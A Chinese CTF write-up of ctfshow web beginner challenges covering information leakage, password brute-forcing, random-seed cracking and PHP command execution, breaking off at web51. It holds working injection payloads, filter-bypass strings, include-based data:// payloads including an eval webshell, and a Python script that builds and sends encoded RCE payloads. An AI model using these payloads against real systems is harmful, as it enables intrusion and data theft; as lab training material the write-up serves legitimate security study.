










CTFSHOW-WEB入门

## 一、信息收集

### web1

 简单的信息收集入门，F12查看源代码


发现flag

------


### web2

进去发现F12和右键被禁用，


在火狐浏览器中，可以打开应用程序菜单>更多工具>页面源代码（或者直接快捷键ctrl+u），查看源代码


获得flag

------


### web3

题目提示可以抓包，可以是浏览器工具进行查看请求包


在响应头中发现flag

------


### web4

题目提示了robots，

如何判断是robots.txt

1）dirsearch扫描一下网站


扫描得到/robots.txt

2）题做得多了就可以判断出robots.txt


输入后，提示一个地址/flagishere.txt

跟进去看看


得到flag

------


### web5

dirsearch简单扫一下没扫到

题目提示phps源码泄露

```
有关源码泄露的知识在下面博客
https://www.cnblogs.com/Lmg66/p/13598803.html
```

于是针对性的扫描一下phps

```
dirsearch -u <URL> -e <phps>
```


发现/index.phps


下载下来index.phps

打开查看


发现flag

------


### web6

老规矩扫描一下


发现/www.zip，


下载www.zip,并打开查看

发现目录下两个文件


分别查看

index.php


提示flag in fl000g.txt

打开fl000g.txt

发现flag{flag_here}

但是不是规定的格式，尝试提交一下，果然不对

猜测fl000g.txt可以在网站里打开，果然


得到flag

------


### web7

扫一下


发现/.git/

进入查看


发现flag

------


### web8

一个字。扫！

发现/.svn


进入看一下


发现flag

------


### web9

插入一个知识点关于vim

```
vim缓存泄露，在使用vim进行编辑时，会产生缓存文件，操作正常，则会删除缓存文件，如果意外退出，缓存文件保留下来，这是时可以通过缓存文件来得到原文件，以index.php来说，第一次退出后，缓存文件名为 .index.php.swp，第二次退出后，缓存文件名为.index.php.swo,第三次退出后文件名为.index.php.swn 
```

这个可以利用dirsearch用字典扫出来

但是我不会（**等我写完wp再说**）

//因为字典里没有.php.swp所以扫描不到

字典加入后，可以扫到


所以我是猜到可能是index产生的缓存文件，猜测出index.php.swp

进入后下载打开


得到flag

------


### web10

根据提示，查看cookie


发现flag

------


### web11*

未做到


------


### web12

扫


打开robots.txt


提示admin

打开


猜测用户名admin

寻找密码

题目提示


查看网页信息


发现一串数字

试一下，登陆成功


发现flag

------


### web13

s


发现几个可疑网站，打开未发现有用线索

检查网站


发现document可以点进去


在文档末尾发现线索

尝试进行登录


登陆成功


获得flag

------


### web14

猜猜我要干啥


惊喜，进入/editor看看


文件上传？不能够啊，研究一下


发现文件空间

检查一下


发现fl000g.txt想办法打开


得到flag

------


### web15

检查网站

发现疑似有用信息1156631961@qq.com


s


发现登陆界面

进去看看


密码？忘记密码看看


你在哪个城市？根据我天狗的经验，qq号可以看位置*（电脑端看不到，手机端可以）


发现在西安

提交后，密码被重置


登陆试试


获得flag

------


### web16

题目中提到探针了解一下先

[[php探针存在xss漏洞_php探针漏洞-CSDN博客](https://blog.csdn.net/wangyuxiang946/article/details/121437511)

提到探针格式为tz.php

用dirsearch没扫出来（和web9一样，字典里没有，加入后也可以扫到）



用御剑扫出来了、


进入tz.php看一下


点开来PHPINFO

检索页面


得到flag

------


### web17

s


发现/.sql

进入看看


打开sql


发现flag

------


### web18

s

扫不出来

查看一下前端文件


发现可疑信息

解码


进入110.php


得到flag

------


### web19

查看原批，不不不，源码


发现用户名和密码

但是密码加密了

试着随便登陆一下


发现密码是经过加密后再用post传上去

我们也如此操作就不用解密了


得到flag

------


### web20

s


扫到/db/

接着扫/db


发现/db.mdb

进去看看


打开db.mdb查看（因为没有打开程序，用VIM不好查看，所以改后缀）


得到flag

------

```html
<div style="page-break-after:always"></div>
```

#### 换页符


<div style="page-break-after:always"></div>

## 二、爆破

### web21

打开题目发现附件，先下载附件查看


发现是本字典，猜测等会可能会用来进行爆破

打开靶机，弹出页面提示登陆


随便输入用户admin，密码passwd，然后进行抓包


发现一串经过base64加密的字符，进行解密发现为admin:passwd

判断出上传的数据格式为

```
用户名：密码
```

且经过base64加密的

针对这种形式进行爆破，选择simple list（简单表单，可以理解为用字典爆破）


字典选取附件中的字典


因为我们只针对密码进行爆破，根据上传数据的格式要设置规则


```
在密码前加上数据：admin：
Add Prefix:admin:

进行base64加密
Base64-encode

#注意顺序#
```

取消勾选此内容


因为“=”会影响base64，所以选择取消

开始爆破


成功爆出密码，进入查看一下


得到flag

------

### web22*

未做到


------

### web23

打开网站，分析一下


什么意思呢

就是你需要get传一个token

token传入值的MD5要满足两个条件：

1、第1位=第14位=第17位

2、（第1位+第14位+第17位）/第1位=第31位

##### 方法一：构建脚本

由此创建脚本

```php
<?php
error_reporting(0);

$string = '0123456789';
for($a=0;$a<strlen($string);$a++){
    for($b=0;$b<strlen($string);$b++){
        for($c=0;$c<strlen($string);$c++){
            $flag = $string[$a].$string[$b].$string[$c];
            $token = md5($flag);
            if(substr($token, 1,1)===substr($token, 14,1) && substr($token, 14,1) ===substr($token, 17,1)){
                if((intval(substr($token, 1,1))+intval(substr($token, 14,1))+substr($token, 17,1))/substr($token, 1,1)===intval(substr($token, 31,1))){
                    echo $flag."\n";
                }
            }
        }
    }
}
?>
    
    #此段代码是网上借鉴的，具体代表的含义和用法，等我写完爆破的wp，再做研究
```

运行一下得到一个满足条件的数：422


那我们就讲422传进入


得到flag

web24？ NONONO既然是在爆破里面，肯定要用到爆破！

##### 方法二：bp爆破

随便传一个，比如?token=1

进行抓包


然后对token=后面的参数进行爆破

如何设置选择Custom iterator(自定义迭代器)


设置参数


这里我传入了0-9加上空格一共11个，但是注意看position后面，是1，代表这里设置的是第一个参数的选择范围，我们简单的先设置三个参数，说白了就是测试从0到999，此题中应该够。什么叫迭代？就是他会自己变化，比如说此题中，如果我们传入一个字典，里面包含了0-999所有的数字，也可以做出来，毕竟我们现在所做的也是测试0-999，但那个不叫迭代，迭代就是三位数，第一位我们设置范围是0-9，第二位，第三位也是，那他就会一个数一位数的变，这就叫迭代

当然，因为我们只测试0-999的数字，我们也可以选用Numbers，如图设置


还有一种Brute forcer（暴力破解）


如此设置也是测试0-999

但是我没有跑，如果Numbers、Brute forcer和Custom iterator都没有跑出来


```
Custom iterator方式下，我们可以添加英文大小写字母，或者直接传入所有可打印字符
Numbers方式下，我们可以增加位数，4位，5位......
Brute forcer方式下，两种方法都可以
```

但是要注意，毕竟是爆破，加入的东西越多，跑的时间按越长，所以此题最优解就是写脚本，找的满足条件的值，比爆破来的快

```小建议
如果在比赛中可以酌情考虑方法，毕竟有时候条件可能会看不懂，或者正好要去吃饭，bp挂在那跑一下，也是可以的，附加一条，爆破的时候注意容器时间！！！
```

这会功夫已经跑出来了


还是422，我们点进去查看一下


得到flag

------

### web24

打开靶机，仔细分析


GET传入一个r，r=随机数，告诉了我们随机数的种子，写个脚本

```php
<?php
mt_srand(372619038);
echo mt_rand();
?>
#这个我真是自己写的！！
```

查看一下php版本，版本不同，出来的随机数不一样


比如上图，php为5.6，出来的随机数就不一样，所以我们要查看一下网站的php版本


在X-Powered-By中查看到用的是PHP/7.3.11

找到对应版本（这里好像涉及到一个知识点php执行环境5.6和7.1的区别，具体怎么回事，等我写完wp的），执行指令

得到随机数：1155388967


将其传入


得到flag

至于爆破，大佬说不如写脚本


但是也给出了解决方案


这个插件，我下载了，理解了一下原理

就是写个脚本，让他根据脚本进行爆破，显然，俺不会！但是网上可以找到别人写好的脚本，毕竟


懂得都懂

------

### web25

分析一下


首先要r传入一个随机值，然后设置cookie：token=两个随机值相加

但是我们不知道种子，根据提示，如果传错会打印随机值

我们先随便传一个r=0


得到随机数，然后逆推种子

这里用到了一个工具php_mt_send，下面是教程

[php_mt_seed - PHP mt_rand() 随机数种子破解使用_php_mt_seed怎么安装-CSDN博客](https://blog.csdn.net/weixin_46250265/article/details/113919405)

然后进行爆破随机数


查看网页的php版本


发现为7.1以上，那我们就测试一下爆出来的7.1以上的种子

```
<?php
mt_srand(种子);
echo mt_rand()."\n";
echo mt_rand()+mt_rand();
?>
```

跑出来是


将两个数值传入试试


得到flag

------

### web26

打开实例

开始安装

查看源码，发现一个网页check.php，和一段post传参的要求


##### 方法一：

我们打开网页，按照要求进行post传参，

```
a=&p=&d=&u=&pass=
要求几个参数均为空
```


传入后得到flag

##### 方法二：爆破

不忘初心噻

参数就按照他给定的填写


然后抓包


密码123456肯定不对嘛

爆破，字典还是选用前几个题目给的字典


静候雷佳音

发现爆不出来，不要慌，换一本字典


最后爆出来的密码应该是7758521（亲亲我吧我爱你）也算是我们当年常用的密码，传入密码


得到flag

------

### web27

打开网站，发现需要登陆，但是有录取名单和学生学籍信息查询系统


打开录取名单发现身份证号中间几位被隐藏


随便在查询系统里输入中间几位进行抓包爆破


然后你会惊奇的发现，抓不到包


小慌一下吧

换个浏览器试试,直接用bp自带的浏览器

因为是自带的，所以不需要设置代理


然后对身份证不知道的地方进行爆破

爆破模式选择Dates


要注意设置年月日格式为yyyyMMdd

开始爆破


爆出来为19900201

将其输入进行查询


得到密码学号进行登录


得到flag

------

### web28

进入，刷新抓一下包


发现一个有意思的地方


这个地方，谁家好人目录用数字啊，猜一下其他目录也是数字？

爆破，

补：这是一些用法


这里的攻击方式选择Cluster bomb（集束炸弹）


最后爆破出来的是/72/20/


打开这个网页看看


得到flag

<div style="page-break-after:always"></div>

------

## 三、命令执行

大佬们对命令执行进行了分类一共三类

### 类型一

变量来接受并过滤传入的数据,eval函数来执行

#### web29

打开容器，是一个命令执行


过滤了flag，/i代表不分大小写

##### 方法一：可使用通配符绕过

命令执行中get传参的形式 

```
?变量=system("指令");
这里system为命令执行函数，可以置换推荐passthru()

命令执行函数
system() 输出并返回最后一行shell结果。
exec() 不输出结果，返回最后一行shell结果，所有结果可以保存到一个返回的数组里面。
shell_exec() 将字符串作为OS命令执行，需要输出执行结果，且输出全部的内容。
passthru() 只调用命令，把命令的运行结果原样地直接输出到标准输出设备上。
popen()/proc_open() 该函数也可以将字符串当作OS命令来执行，但是该函数返回的是文件指针而非命令执行结果。该函数有两个参数。
反引号 同shell_exec() 


输出函数
cat函数 由第一行开始显示内容，并将所有内容输出（被过滤！）
tac函数 从最后一行倒序显示内容，并将所有内容输出（被过滤！）
nl      类似于cat -n，显示时输出行号（被过滤！）
more    根据窗口大小，一页一页的现实文件内容（被过滤！）
less    和more类似，但其优点可以往前翻页，而且进行可以搜索字符（被过滤！）
head    只显示头几行（被过滤！）
tail    只显示最后几行（被过滤！）
sort    文本内容排列
uniq    可检查文本文件中重复出现的行列。
od od   （Octal Dump）命令用于将指定文件内容以八进制、十进制、十六进制、浮点格式或ASCII编码字符方式显示，通常用于显示或查看文件中不能直接显示在终端的字符。od命令系统默认的显示方式是八进制。
strings: 在对象文件或二进制文件中查找可打印的字符串, 在当前目录中，查找后缀有 file 字样的文件中包含 test 字符串的文件，并打印出该字符串的行。此时，可以使用如下命令： grep test *file strings
paste	把每个文件以列对列的方式，一列列地加以合并
grep	 grep { flag.php打印有”{“的一行
sed		一种编辑器，可以用sed -f flag.php读取flag

readfile()			读取文件
highlight_file()	读文件
show_source()		同上
base64_decode()		base64解码
strrev()			反转字符串

空格绕过：
${IFS}
{IFS}$9
$IFS$9
重定向符：<>（但是不支持后面跟通配符）
%09 水平制表符
%0a 回车
%0d 换行

通配符

?             问号，匹配任意一个字符
*	          前一个字符匹配0次或任意多次
.	          匹配除了换行符以外任意一个字符
^	          匹配行首。例如：^helloworld会匹配以helloworld开头的行
$	          匹配行尾。例如：helloworld$会匹配以helloworld结尾的行
[]	          匹配中括号里的任意指定的一个字符，但只匹配一个字符
[^]	          匹配除中括号以外的任意一个字符
\	          转义符，取消特殊含义
{n}	          表示其前面的字符恰好出现n次
{n,}	      表示其前面的字符出现不小于n次
{n,m}	      表示其前面的字符至少出现n次，最多出现m次

eg：
[a-z]表示任何小写字母
a*会匹配所有内容，因为a可以出现0次
o{2,}不匹配Bob中o，匹配foooooood中所有的o
————————————————
版权声明：本文为CSDN博主「zgqxiexie」的原创文章，遵循CC 4.0 BY-SA版权协议，转载请附上原文出处链接及本声明。
原文链接：https://blog.csdn.net/zgqxiexie/article/details/51184602
```

这题中我们的指令为

```
?c=system("cat f*");
```

传入后查看源码


得到flag

##### 方法二：

```
1.通配符fla?绕过flag检测

2.c=echo `nl fl\ag.php`;//转义字符绕过

3.通过变量赋值直接绕过c的过滤 这个后面会经常用到，到时候再细讲
c=include($_GET[1]);&1=php://filter/read=convert.base64-encode/resource=flag.php

4.c=eval($_GET[1]);&1=system('nl flag.php');

```


------

#### web30

进入后分析一下


屏蔽了flag、system、php

根据web29讲的，进行更改指令

```
?c=passthru("cat f*");
```


得到flag

------


#### web31

分析


这次过滤的有些多，过滤了以下字节

```
flag、system、php、cat、sort、shell、\.、空格、\'
```

这次我们试一下新命令

```
?参数=echo(`指令`);
system可以用 ` 反引号来代替去执行命令
所以也可以用
?参数=echo`指令`;
```

那这题我们就可以写成

```
?c=echo(`tac%09f*`);
```

传入


得到flag

------

#### web32

分析


过滤了

```
flag|system|php|cat|sort|shell|\.| |\'
```

编写命令

```
?c=passthru("tac%09f*");
```

输入


得到flag

妈的，开错实例了

分析


过滤了

```
flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(
```

构建命令,利用文件包含include可以不用括号,分号用?>代替

```
?c=include$_GET[a]?>;&a=php://filter/read=convert.base64-encode/resource=flag.php
或者
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>

?c=include$_GET[a]?>&a=各种伪协议

```

介绍一下伪协议吧

```
适用于include（$参数）

data:text/plain,<?=system("tac fla*");?>

data伪协议的格式:

data://text/plain;base64,

data:资源类型(MIME类型);编码,内容


    
1.c=data://text/plain,<?php system("cat fla*");?>
读flag

2.c=data:,<?php @eval($_POST['shell']); ?>
可以直接用蚁剑连接

3.c=data:text/base64,PD9waHAgQGV2YWwoJF9QT1NUWydzaGVsbCddKTsgPz4=

data类型扩展
data:,                                     <文本数据>
data:text/plain,                           <文本数据>
data:text/html,                            <HTML代码>
data:text/html;base64,                     <base64编码的HTML代码>
data:text/css,                             <CSS代码>
data:text/css;base64,                      <base64编码的CSS代码>
data:text/javascript,                      <Javascript代码>
data:text/javascript;base64,               <base64编码的Javascript代码>
data:image/gif;base64,                     <base64编码的gif图片数据>
data:image/png;base64,                     <base64编码的png图片数据>
data:image/jpeg;base64,                    <base64编码的jpeg图片数据>
data:image/x-icon;base64,                  <base64编码的icon图片数据>
```

这里我们采用

```
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```

**至于为什么后面可以出现过滤掉的字符，因为只是对get传入的c进行过滤**

输入


得到flag

------

#### web33

分析


过滤了

```
flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"
```

但是对于web32构建的命令并没有影响，再次利用

```
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```


得到flag

------

#### web34

分析


比上题多过滤了一个：

但对于web32的并没有影响

继续使用

```
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```


(因为技术问题部分截图损失，故有些类似题目采用相同截图)

得到flag

------

#### web35

分析


多过滤了（和=

继续用32

```
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```


得到flag

------

#### web36

分析


多过滤了数字和/

继续用32的

```
/?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```


得到flag

------

#### web40

分析


过滤了

```
[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\

注意：这里过滤的是中文的括号（）,而非英文的括号()
过滤了冒号，伪协议就无法使用

```


那我们使用无参数的rce进行构造读取文件：

```
无参数的rce：

scandir() :           将返回当前目录中的所有文件和目录的列表。返回的结果是一个数组，其中包含当前目录下的所有文件和目录名称

getcwd() :取得当前工作目录

hightlight_file()、show_source()、readfile()：读取文件内容

dirname():函数返回路径中的目录部分

eval()、assert()：命令执行

print_r(scandir(‘.’)); 查看当前目录下的所有文件名

localeconv() 函数返回一包含本地数字及货币格式信息的数组。

current() 函数返回数组中的当前元素（单元）,默认取第一个值，pos是current的别名

chdir() ：函数改变当前的目录。

strrev():用于反转给定字符串

array_reverse() 以相反的元素顺序返回数组

array_flip() :交换数组中的键和值，成功时返回交换后的数组

array_rand() :从数组中随机取出一个或多个单元

数组移动操作

each() 返回数组中当前的键/值对并将数组指针向前移动一步

end() 将数组的内部指针指向最后一个单元

next() 将数组中的内部指针向前移动一位

prev() 将数组中的内部指针倒回一位

reset() ： 将内部指针指向数组中的第一个元素，并输出


highlight_file(array_rand(array_flip(scandir(getcwd())))); //查看和读取当前目录文件
print_r(scandir(dirname(getcwd()))); //查看上一级目录的文件
print_r(scandir(next(scandir(getcwd()))));  //查看上一级目录的文件
show_source(array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd()))))))); //读取上级目录文件
show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(getcwd())))))))))));//读取上级目录文件
show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion())))))))))))))));//读取上级目录文件

```

我们先打印当前目录下的文件

```
?c=print_r(scandir(current(localeconv())));

相当于ls

```


读取目录文件后，发现输出的是数组，而文件名是数组中的值，下一步我们需要取出想要读取文件的数组

构建命令

```
/?c=show_source(next(array_reverse(scandir(pos(localeconv())))));
```


得到flag

------

#### web41

分析


过滤了数字和字母还有一些其他符号

```
\^|\+|\~|\$|\[|\]|\{|\}|\&|\-
```

我们可以利用或运算符进行构造payload进行命令执行
思路：

```
例如源码中禁止我们使用了数字3，也就是ascii码值为51，我们可以使用或运算符在没有被禁止的字符中构造出51来，比如19和32没有被禁止，我们进行或运算19|32=51，就可以获得51这个ascii码值，也就是成功得到了数字3
```

网上copy的脚本，自己加的注释，（按理说应该适应类型一的所有类型）

```python

#-- codinI:UTF-8 --


# 导入用于发送 HTTP 请求的 requests 模块。
import requests
#导入用于 URL 编码解码的 urllib 模块
import urllib
#导入正则表达式模块
import re

#导入 sys 模块的所有内容
from sys import *

# 如果命令行参数的数量不等于2，则输出使用说明并退出
if len(argv) != 2:

    print("="*50)
    print('USER:python exp.py <url>')
    print("eI:  python exp.py http://ctf.show/")
    print("exit: input exit in function")
    print("="*50)
    exit(0)
# 获取命令行参数中的 URL 
url=argv[1]

#生成可用的字符,定义一个函数，生成可用字符的组合并写入到文件 rce.txt 中
def write_rce():
    result = ''

    # 定义一个正则表达式字符串 preg，用于匹配数字、小写字母以及一些特殊字符。
    #这一段是需要更改的
    preg = '[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-'

    # 遍历 ASCII 码中的所有可能字符。
    for i in range(256):
        # 在每次循环中，再次遍历 ASCII 码中的所有可能字符
        for j in range(256):
            #如果字符 chr(i) 和 chr(j) 都不匹配正则表达式 preg，即它们不是数字、小写字母或特殊字符之一，那么执行以下操作。
            if not (re.match(preg, chr(i), re.I) or re.match(preg, chr(j), re.I)):
                # 将 i 和 j 进行按位或运算，得到一个新的字符 k。
                k = i | j
                # 如果新生成的字符 k 在可显示字符的 ASCII 范围内（32-126），则执行以下操作。
                if k >= 32 and k <= 126:
                    # 将 i和j 转换成两位的十六进制形式，并添加 '%' 前缀。
                    a = '%' + hex(i)[2:].zfill(2)
                    b = '%' + hex(j)[2:].zfill(2)
                    # 将生成的字符 chr(k) 以及对应的十六进制形式添加到 result 字符串中。
                    result += (chr(k) + ' ' + a + ' ' + b + '\n')
    f = open('rce.txt', 'w')
    f.write(result)

# 定义一个函数，根据输入的命令在生成的 rce.txt 中进行匹配，返回相应的字符组合。
def action(arg):
    s1=""
    s2=""
    #对于输入的参数 arg 中的每个字符执行以下循环
    for i in arI:
        f=open("rce.txt","r")
        while True:
            t=f.readline()
            if t=="":
                break
            if t[0]==i:
                #将当前行的第3到第5个字符（十六进制表示的第一个字符）添加到字符串 s1 中。
                s1+=t[2:5]
                #将当前行的第7到第9个字符（十六进制表示的第二个字符）添加到字符串 s2 中。
                s2+=t[6:9]
                break
        f.close()
    #构造一个字符串 output，形如 ("s1"|"s2")，其中 s1 和 s2 是之前匹配到的字符组合的十六进制表示。
    output="(\""+s1+"\"|\""+s2+"\")"
    return(output)
    
#是脚本的主函数，包含整个脚本的主要逻辑。
def main():
    write_rce()
    while True:
        s1 = input("\n[+] your function：")
        if s1 == "exit":
            break
        s2 = input("[+] your command：")
        #根据用户输入的功能和命令，调用 action 函数生成相应的参数。
        param=action(s1) + action(s2)
        #构造一个字典 data，包含 POST 请求的参数，其中 'c' 的值是经过 URL 解码的参数。
        data={
            'c':urllib.parse.unquote(param)
            }
        #发送 POST 请求到指定的 URL，带上构造好的参数。
        r=requests.post(url,data=data)
        print("\n[*] result:\n"+r.text)

main()


```

将其运行


写入靶机地址


cat f*


得到flag

------

<div style="page-break-after:always"></div>

### 类型二

变量接收并过滤传入的数据,include来包含文件

#### web37

分析


$c没有执行, 而是包含文件

先看一下32的命令

```
/?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>

前半段/?c=include$_GET[a]?>其实就是用include来包含文件，前面是因为有过滤才写成这个形式，可以简写为c=include（a），然后传入一个参数a，然后用a=data://text/plain,<?php system("命令");?>来执行命令
```

这题中已经给你了一个include（$c），所以我们直接直接执行命令就行


但是这里的c，过滤掉了大小写的flag


构建命令

```
/?c=data://text/plain,<?php system("cat f*");?>
```


得到flag

------

#### web38

分析


过滤了

```
flag|php|file
```

那么上题中的payload就用不了，重新构建

```
/?c=data:text/plain,<?=system("tac fla*");?>
```


得到flag

------

#### web39

分析


过滤flag, 但是文件包含处拼接了.php

38可以接着用

```
/?c=data:text/plain,<?=system("tac fla*");?>
```


得到flag

------

<div style="page-break-after:always"></div>

### 类型三

接受并过滤传入的变量拼接命令执行（system函数）和类型一的区别是题目中已经给了sysytem函数


就不需要我们重新构建了

#### web42

分析


后面多了一个" >/dev/null 2>&1"语句，意思是写入的内容会永远消失，也就是不进行回显

```
1：> 代表重定向到哪里，例如：echo “123” > /home/123.txt
2：/dev/null 代表空设备文件
3：2> 表示stderr标准错误
4：& 表示等同于的意思，2>&1，表示2的输出重定向等同于1
5：1 表示stdout标准输出，系统默认值是1，所以">/dev/null"等同于 “1>/dev/null”
因此，>/dev/null 2>&1 也可以写成“1> /dev/null 2> &1”
```

这题终究是：首先表示标准输出重定向到空设备文件，也就是不输出任何信息到终端，也就是不显示任何信息。 接着，标准错误输出重定向到标准输出，因为之前标准输出已经重定向到了空设备文件，所以标准错误输出也重定向到空设备文件。

我们进行一下命令分隔就ok了

常用的分隔符

```
; 分号顺序执行
&& 顺序执行
|| 前边执行成功则不再执行
换行符(在url中是%0a)
& (在url中是%26)
```

构建payload

```
/?c=cat f*;
```


得到flag

------

#### web43

分析


过滤了

```
;|cat
```

构建命令

```
/?c=tac f*%26
```


得到flag

------

#### web44

分析


过滤了

```
;|cat|flag
```

构建命令

```
?c=tac fla*%26
```

得到flag


------

#### web45

分析


过滤了

```
\;|cat|flag
```

比上一题多过滤了;和空格，但是并没有影响，使用%09进行绕过，%09是tab的url编码

构建命令

```
?c=tac%09fla*%26
```

得到flag


------

#### web46

分析


过滤了

```
"/\;|cat|flag| |[0-9]|\\$|\*/i"
```

把数字都过滤了，还把通配符`*`进行了过滤，我们可以改用`?`进行匹配，空格的话还是可以继续使用%09，分隔符还是用%26，它们不属于过滤的数字范畴

查看flag位置

```
?c=ls%26
```


构建命令

```
?c=tac%09fla?.php%26
```

得到flag


------

#### web47

分析


过滤了

```
"/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail/i"
```

多过滤了几个读取文件的命令（命令介绍见web29），但tac没有被过滤

先查看flag位置

```
?c=ls%26
```


构建命令

```
?c=tac%09fla?.php%26
```

得到flag


------

#### web48

分析


过滤了

```
"/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`/i"
```

没有影响

查看flag位置

```
?c=ls%26
```


构建命令

```
?c=tac%09fla?.php%26
```

得到flag


------

#### web49


过滤了

```
"/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%/i"
```

查看flag位置

```
?c=ls%26
```


构建命令

```
?c=tac%09fla?.php%26
```

得到flag


------

#### web50

分析


过滤了

```
"/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%|\x09|\x26/i"
```

天杀的把我的%09和%26过滤掉了

那我们的空格绕过就用<>来绕过，分隔符用||绕过

构建命令查看flag位置

```
?c=ls||
```


这里发现了问题，存在一个fla？.php，而通配符？和<>一起无法显示（why？），所以改用\绕过

构建命令

```
/?c=tac<>fl\ag.php||
```

得到flag


------

#### web51

分析


过滤了

```
